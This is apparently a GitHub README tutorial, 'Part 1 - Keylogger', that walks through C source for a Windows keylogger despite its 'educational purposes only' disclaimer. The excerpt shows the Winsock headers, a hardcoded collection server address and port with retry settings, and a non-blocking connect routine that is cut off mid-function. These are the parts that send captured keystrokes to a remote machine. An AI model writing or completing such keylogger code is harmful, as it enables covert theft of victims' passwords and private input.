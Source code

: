 
## Security and Legal Notice

This software is intended for **educational purposes only**.
Unauthorized use on machines without explicit permission is illegal and unethical.
Always obtain proper authorization before running keylogging software or network monitoring tools.

---


# *Part 1 - Keylogger*

#### How Does This Work?

1. **Include Important Headers**

```c
#define WIN32_LEAN_AND_MEAN

#include <Windows.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#pragma comment(lib, "ws2_32.lib")
#pragma comment(lib, "user32.lib")
#pragma comment(lib, "advapi32.lib")
````

2. **Define Server IP, Port, and Retry Parameters**

```c
#define SERVER_IP "192.168.1.6"
#define SERVER_PORT 5678

#define RETRY_TIME 3000 // 3 seconds
#define MAX_RETRIES 100 // retry 100 times
```

3. **TryConnect Function**

Attempts to establish a non-blocking connection, returning success or failure.

```c
int TryConnect(SOCKET sock, struct sockaddr_in* addr) {
    int result = connect(sock, (struct sockaddr*)addr, sizeof(*addr));
    if (result == SOCKET_ERROR) {
        int err = WSAGetLastError();
        if (err == WSAEWOULDBLOCK || err == WSAEINPROGRESS) {
            fd_set writeSet;
            FD_ZERO(&writeSet);
            FD_SET(sock, &writeSet);

            struct timeval timeout;
            timeout.tv_sec = 5;
            timeout.tv_usec = 0;

            result = select(0, NULL, &writeSet, NULL, &timeout);
            if (result > 0 && FD_ISSET(sock, &writeSet)) {
                int sockErr = 0;
                int len = sizeof(sockErr);
                getsockopt(sock, SOL_SOCKET, SO_ERROR, (char*)&sockErr, &len);
                return (sockErr == 0); // 1 = success
            }
        }
```